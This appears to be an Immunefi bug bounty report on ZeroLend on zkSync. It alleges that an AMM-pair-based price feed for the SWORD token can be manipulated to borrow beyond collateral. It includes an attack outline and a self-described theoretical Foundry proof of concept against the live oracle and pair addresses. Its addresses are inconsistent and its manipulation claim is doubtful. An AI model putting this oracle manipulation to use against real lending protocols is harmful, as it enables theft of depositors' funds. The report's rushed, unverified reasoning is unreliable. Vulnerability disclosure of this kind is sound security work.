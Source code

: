 
# Price assets deposited manipulation

Submitted on Thu Mar 14 2024 07:49:09 GMT-0400 (Atlantic Standard Time) by @Lastc0de for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29344

Report type: Smart Contract

Target: https://explorer.zksync.io/address/0x785765De3E9ac3D8eEb42B4724A7FEA8990142B8

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
NOTE:
This vulnerability was discovered in the last hour and forgive me if there is a problem typing words as I was typing and reporting quickly before the time expired

## 
Zero Land is a fork of AAVE, so its calculations are exactly similar to AAVE calculations.

Based on this: when the user wants to borrow, he/she must first make a deposit, then based on the price that the user has deposited, the user can borrow other assets.

The value of assets that the user has deposited is taken from `AaveOracle.sol` and `AaveOracle` returns the value based on the feed specified by the owner of the protocol, but in your protocol the value can be manipulated and it can be said that all the funds in your protocol can be stolen by this method.

In your protocol, to calculate the number of assets active in your protocol, different `Pairs` pools are used to calculate the value of those assets

For this reason, your protocol is vulnerable to `price manipulation`, because price manipulation is very common and simple in `Pairs`(Ex: Uniswap), and since in your protocol, the most important tasks, such as charging, are calculated based on the value of an asset, this can cause the theft of funds. be you

## Vulnerability Details
For Ex: One of assets in your protocol is `SWORD`:

https://explorer.zksync.io/address/0xDB87A5493e308Ee0DEb24C822a559bee52460AFC

`AaveOracle.sol` wants to get the price of this, it uses the following feed:

https://explorer.zksync.io/address/0x65B28bAfDB15DD3Cb47a568FBa27fABb5b7d99d4#contract

This contract uses `_getPrice()` function to get the price:
~~~
    function _getPrice() internal view returns (int256) {
        IAggregatorV3Interface pyth = IAggregatorV3Interface(ethAggregrator);

        int256 tokenPrice = int256(pool.getAmountOut(1e18, sword));
        int256 ethOraclePrice = pyth.latestAnswer() * 1e10;

        return (tokenPrice * int256(ethOraclePrice)) / 1e28;
    }
~~~
This function returns `tokenPrice` by calling the `getAmountOut()` function in the eZKalibur `pool` address

* eZKalibur is fork from Uniswap v2.

Here the vulnerability appears in the your Oracle, it is easy to manipulate the return value of the `_getPrice()` function by minting and burning the LP token in pair, as a result, considering that your feed uses a pair and uses the return value as the assets value A attacker can easily `manipulate` the return value of `_getPrice()` and increase the amount of assets and borrow more assets and steal the funds in your protocol.



## Impact Details
Attacker, can first depasite a vulnerable token then increase its price using its pair thereby borrowing a token more than the value of something it has already deposited

## References


        
## Proof of concept
## Proof of Concept

NOTE : PoC only theoretically wrote that due to lack of time, vulnerability was discovered in the final hours.


1-Attacker Deposit SWORD in your protocol

2-Attacker increases the value of his asset by manipulating its Pair

3-Attacker, can borrow but more than the value of his property

4-Attacker,return back assets in Pair by burn LP Tokens

~~~
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {Counter} from "../src/Counter.sol";

interface IPair {
    function mint(address to) external returns (uint liquidity);
    function burn(address to) external returns (uint amount0, uint amount1);
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);
}
interface IAaveOracle {
    function getAssetPrice(address asset) external view returns (uint256);
}
contract CounterTest is Test {
    address Pair = 0xc8b6B3A4D2d8428EF3a940EAc1E32A7DdAdCB0f1;
    address WETH = 0x5AEa5775959fBC2557Cc8789bC1bf90A239D9a91;
    address SWORD = 0x240f765Af2273B0CAb6cAff2880D6d8F8B285fa4;
    address AaveOracle = 0x785765De3E9ac3D8eEb42B4724A7FEA8990142B8;


    function setUp() public {
        vm.createSelectFork("https://zksync.meowrpc.com");
        deal(SWORD,address(this), 0); //Flash loan or swap
        deal(SWORD,address(this), 0); //Flash loan or swap
        deal(WETH, address(this), 0); 
    }

    function test_Manipulation() public {
        console2.log("Asset Price Before Exploit: %e",IAaveOracle(AaveOracle).getAssetPrice(SWORD) );
        IERC20(WETH).transfer(Pair, 0); // Enter amount
        IERC20(SWORD).transfer(Pair, 0); // Enter Amount
        IPair(Pair).mint(address(this));
        console2.log("Asset Price After Exploit: %e",IAaveOracle(AaveOracle).getAssetPrice(SWORD) );

    }
}
~~~